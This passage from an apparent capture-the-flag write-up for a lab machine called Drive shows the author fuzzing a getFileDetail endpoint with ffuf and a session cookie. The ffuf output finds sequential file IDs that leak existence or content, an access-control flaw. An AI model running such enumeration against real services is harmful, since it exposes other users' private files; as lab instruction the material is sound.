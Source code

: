 Rendered:

![](_/htb-drive-20231019-1.png)

## Exploit

I'm able to create a user account and explore. There is an endpoint called `getFileDetail` that fetches files via a file ID, which appears to be a sequential integer. This allows me to discover valid file IDs, which return a permission error instead of `404`. I grab the session cookie via Burp and run `ffuf`:

```console
$ c='csrftoken=HbHmux4Xan3o9FNfHjsTwIZ9Kzmp8ezn; sessionid=evaxi8pqab9j0ocxhvnqojwo68x25k5x'
$ ffuf -b "$c" -w ~/w -u http://drive.htb/FUZZ/getFileDetail/ -fs 82
[...]
________________________________________________

 :: Method           : GET
 :: URL              : http://drive.htb/FUZZ/getFileDetail/
 :: Wordlist         : FUZZ: /home/e/w
 :: Header           : Cookie: csrftoken=HbHmux4Xan3o9FNfHjsTwIZ9Kzmp8ezn; sessionid=evaxi8pqab9j0ocxhvnqojwo68x25k5x
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 82
________________________________________________

79                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 301ms]
99                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 299ms]
98                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 320ms]
101                     [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 302ms]
100                     [Status: 200, Size: 5078, Words: 1147, Lines: 172, Duration: 313ms]
114                     [Status: 200, Size: 6180, Words: 1846, Lines: 221, Duration: 282ms]
:: Progress: [200/200] :: Job [1/1] :: 126 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

